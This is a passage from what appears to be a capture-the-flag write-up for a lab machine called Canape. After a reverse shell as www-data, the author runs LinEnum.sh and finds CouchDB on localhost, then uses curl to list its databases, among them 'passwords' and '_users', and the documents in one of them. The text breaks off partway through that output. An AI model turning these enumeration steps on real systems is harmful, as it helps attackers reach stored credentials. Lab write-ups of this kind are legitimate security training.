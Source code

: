 ![reverse shell](./images/canape/reverse_shell.png)

Although, we have a reverse shell, the user running the HTTP server is **www-data**, so we need to escalate privileges and log in as other user. 
Once inside the machine, my first move was to run **LinEnum.sh**. Once of the outputs of it was the following: 

![troll](./images/canape/troll.png)

I spent hours, trying to understand this file. Until I gave up (hopefully I did it) and continue looking in another place. I guess it was a **BIG** troll.

Analyzing the applications running on the system and its ports, I found the **couchdb** running in localhost. 
I started reading a little bit about this DB (never saw it before), and quickly figure it out how to connect to it: 

```bash
$> curl -X GET http://localhost:5984
{"couchdb":"Welcome","version":"2.0.0","vendor":{"name":"The Apache Software Foundation"}}
```

I started playing around a little more and figured it out how to list dbs and docs inside them: 

```bash
$> curl -X GET http://localhost:5984/_all_dbs
["_global_changes","_metadata","_replicator","_users","passwords","simpsons"]
$> curl -X GET http://localhost:5984/simpsons/_all_docs
{"total_rows":7,"offset":0,"rows":[
{"id":"f0042ac3dc4951b51f056467a1000dd9","key":"f0042ac3dc4951b51f056467a1000dd9","value":{"rev":"1-fbdd816a5b0db0f30cf1fc38e1a37329"}},
{"id":"f53679a526a868d44172c83a61000d86","key":"f53679a526a868d44172c83a61000d86","value":{"rev":"1-7b8ec9e1c3e29b2a826e3d14ea122f6e"}},
{"id":"f53679a526a868d44172c83a6100183d","key":"f53679a526a868d44172c83a6100183d","value":{"rev":"1-e522ebc6aca87013a89dd4b37b762bd3"}},
{"id":"f53679a526a868d44172c83a61002980","key":"f53679a526a868d44172c83a61002980","value":{"rev":"1-3bec18e3b8b2c41797ea9d61a01c7cdc"}},
```